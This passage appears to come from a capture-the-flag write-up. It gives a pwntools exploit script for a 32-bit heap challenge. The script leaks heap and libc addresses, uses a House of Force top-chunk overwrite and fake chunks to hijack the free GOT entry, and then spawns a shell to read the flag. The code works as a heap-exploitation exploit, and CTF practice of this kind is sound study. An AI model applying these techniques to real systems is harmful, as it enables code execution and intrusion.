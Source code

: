    ```py
       p.sendlineafter(b'>>','4')
       p.sendlineafter(b':',str(index).encode())
   
   # 泄漏堆地址
   p.sendafter(b'name:',b"A"*60+b"FFFF")
   p.recvuntil(b"FFFF")
   heap_addr = u32(p.recv(4))&0xffff000
   success("heap_addr ==> " + hex(heap_addr))
   top_chunk_addr = heap_addr+0xd8
   success("top_chunk_addr ==> " + hex(top_chunk_addr))
   
   #修改top chunk大小
   payload = b"\xff"*65
   p.sendafter(b'Org:',payload)
   p.sendlineafter(b'Host:',b"\xff"*66)
   
   # 移动topchunk位置 到heaplist位置
   offset = 0x0804B120 - (top_chunk_addr)-12
   add(offset,b"a")    #0
   
   # 创建傀儡 chunk3
   add(8,p64(0x804b12c))   #1
   add(8,p64(0x804b130))   #2
   add(8,b"aaa")   #3
   add(4,b"aaa")   #4
   add(4,b"aaa")   #5
   
   # 创建傀儡7
   edit(2,p64(0x804b13c))   #创建傀儡7
   edit(3,p64(0x804b128))  
   
   
   # 修改free的got表,指向puts函数的plt表
   edit(2,p64(elf.got["free"])) 
   edit(3,p64(elf.plt["puts"]))
   
   #利用free函数输出puts函数地址
   edit(2,p64(elf.got["puts"]))
   free(3)
   puts_addr = u32(p.recvuntil(b"\xf7")[-4:])
   libc_base = puts_addr - libc.symbols["puts"]
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   # 利用傀儡2 修改free的got表,指向puts函数的plt表
   edit(7,p64(elf.got["free"]))
   edit(2,p64(system_addr))
   debug()
   add(8,b"/bin/sh\x00")   #3
   free(3)
   
   p.sendline(b"cat flag")
   p.interactive()
   ```

   ![image-20240729114731422](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291147517.png)
